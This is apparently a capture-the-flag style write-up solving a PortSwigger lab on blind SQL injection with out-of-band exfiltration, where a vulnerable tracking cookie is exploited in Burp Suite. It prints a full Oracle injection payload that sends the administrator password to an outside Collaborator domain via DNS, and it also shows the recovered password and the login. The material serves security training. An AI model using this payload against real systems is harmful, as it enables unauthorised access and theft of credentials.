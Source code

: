 
### Blind SQL injection with out-of-band data exfiltration : PRACTITIONER

---

Since the application executes the SQL asynchronously and has no effect on the application response, we can try and trigger and out of band network interaction.


> Capturing a `GET` request using BURPSUITE PROXY HTTP history, we see the `TrackingId` cookie that is vulnerable.

![](./screenshots/lab17-1.png)

Opening the [SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) and trying the different out of band payloads and placing them in the `TrackingId` cookie with the burp collaborator domain.

We also enter our payload to get the password for the `administrator` user.
```
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.go8loz9vn6mt7hst7vugtmtsljrcf33s.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```
- We concatenated the result of the query that obtains the password of the administrator user as a subdomain of the Burp Suite collaborator domain.


Opening collaborator and polling we see the following DNS requests, confirming that we executed SQL statements.

![](./screenshots/lab18-1.png)

And the password is selected.

```
q66xkdcyutnmz6rkju7h
```

Logging in as `administrator:q66xkdcyutnmz6rkju7h` completes the lab.

---
